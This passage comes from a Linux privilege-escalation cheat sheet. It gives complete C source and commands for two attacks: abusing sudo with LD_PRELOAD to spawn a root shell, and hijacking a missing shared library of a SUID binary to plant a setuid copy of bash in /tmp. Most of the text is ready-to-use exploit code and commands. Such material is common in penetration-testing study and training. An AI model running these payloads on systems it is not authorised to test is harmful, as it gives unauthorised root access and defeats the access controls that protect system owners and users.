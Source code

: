 Save as **/tmp/pe.c**

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Then **compile it** using:

```bash
cd /tmp
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

Finally, **escalate privileges** running

```bash
sudo LD_PRELOAD=pe.so <COMMAND> #Use any command you can run with sudo
```

### SUID Binary – so injection

If you find some weird binary with **SUID** permissions, you could check if all the **.so** files are **loaded correctly**. In order to do so you can execute:

```bash
strace <SUID-BINARY> 2>&1 | grep -i -E "open|access|no such file"
```

For example, if you find something like: _pen(“/home/user/.config/libcalc.so”, O\_RDONLY) = -1 ENOENT (No such file or directory)_ you can exploit it.

Create the file _/home/user/.config/libcalc.c_ with the code:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

Compile it using:

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```
